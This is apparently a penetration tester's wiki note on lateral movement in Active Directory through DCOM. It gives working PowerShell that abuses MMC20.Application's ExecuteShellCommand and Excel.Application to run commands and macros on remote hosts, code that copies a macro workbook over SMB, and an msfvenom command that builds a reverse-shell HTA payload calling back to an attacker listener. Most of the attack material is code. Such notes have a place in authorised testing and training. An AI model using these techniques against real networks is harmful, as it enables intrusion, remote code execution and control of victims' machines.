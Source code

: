 # Active Directory Lateral Movement With DCOM


[Distributed Component Object Model](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) (DCOM) are just [Component Object Model (COM)](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal?redirectedfrom=MSDN) -  software components that can interact, but also distributed over a network or networked Windows machines.[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and their interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They are ancient technologies that are present from the early days of Windows. DCOM interaction occurs using RPC on TCP port 135 and local administrative access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

The attack is based on the abuse of Microsoft Management Console COM application as the MMC Application Class allows the creation of Application Objects exposing `Document.ActiveView\ExecuteShellCommand` property

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$ipAddress"))
# EXecute a command - KEEP THE 7
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c cmd","7")
```


There are various Microsoft Office DCOM objects that allow for lateral movement.  - consider [[Useful-Visual-Basic]]
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"
$RemotePath = "\\$IP\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The `base64` encode [[MSFVenom-Payloads]] command to create .hta attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The `LHOST` can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with `dccomexec`